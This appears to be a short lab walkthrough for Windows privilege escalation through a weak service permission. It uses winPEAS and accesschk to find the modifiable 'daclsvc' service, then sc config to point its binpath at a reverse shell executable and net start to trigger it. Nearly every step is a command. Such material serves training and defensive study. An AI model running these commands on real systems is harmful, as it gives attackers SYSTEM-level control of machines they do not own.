 1.Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```


2.Note that we can modify the “daclsvc” service.

3.We can confirm this with accesschk.exe:
```
accesschk.exe /accepteula -uwcqv user daclsvc
```

4.Check the current configuration of the service:
```
sc qc daclsvc
```

5.Check the current status of the service:

```
sc query daclsvc
```

6.Reconfigure the service to use our reverse shell executable:
```
sc config daclsvc binpath= "C:\PrivEsc\reverse.exe"
```

7.Start a listener on Kali, and then start the service to trigger the exploit:

```
net start daclsvc
```

we can also start the service using

```
sc start daclsvc
```